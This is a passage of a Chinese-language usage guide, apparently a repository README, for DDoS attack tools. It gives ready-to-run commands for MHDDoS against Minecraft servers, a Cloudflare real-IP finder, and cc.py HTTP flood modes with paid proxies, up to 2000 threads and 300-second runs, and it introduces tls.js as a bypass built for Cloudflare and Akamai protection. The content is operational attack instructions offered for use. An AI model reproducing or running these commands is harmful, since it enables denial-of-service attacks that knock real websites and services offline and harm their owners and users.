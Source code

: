 ```bash
python3 mhddos/start.py MINECRAFT 目标IP:25565 200 180

# 查找CloudFlare真实IP
python3 mhddos/start.py tools
# 选择 1: CFIP
```

---

## 🔧 核心工具详解

### 1. cc.py - Python CC攻击（⭐最推荐）

**支持模式**:
- **CC模式** (`-m cc`) - 默认，GET请求
- **POST模式** (`-m post`) - API接口测试
- **HEAD模式** (`-m head`) - 轻量级测试
- **Brute模式** (`-b 1`) - 极限模式

**使用示例**:
```bash
# 基础攻击
python3 cc.py -url https://目标.com -f proxy_paid.txt -v http -s 60

# POST接口
echo '{"test":"data"}' > data.json
python3 cc.py -url https://目标.com/api -m post -data data.json \
  -f proxy_paid.txt -v http -s 120

# 极限模式
python3 cc.py -url https://目标.com -m cc -b 1 -t 2000 \
  -f proxy_paid.txt -v http -s 300
```

**参数说明**:
```
-url      目标URL（必填）
-m        模式：cc/post/head（默认：cc）
-f        代理文件（默认：proxy.txt）
-v        代理类型：4/5/http（默认：5）
-t        线程数（默认：800）
-s        时长（秒）（默认：60）
-b        Brute：0/1（默认：0）
```

---

### 2. tls.js - HTTP/2 + TLS Bypass（⭐最强）

**专门针对Cloudflare/Akamai等高防护CDN！**

**核心技术**:
- ✅ HTTP/2多路复用
- ✅ TLS 1.3加密
- ✅ 动态UA生成
- ✅ 自动RAM管理

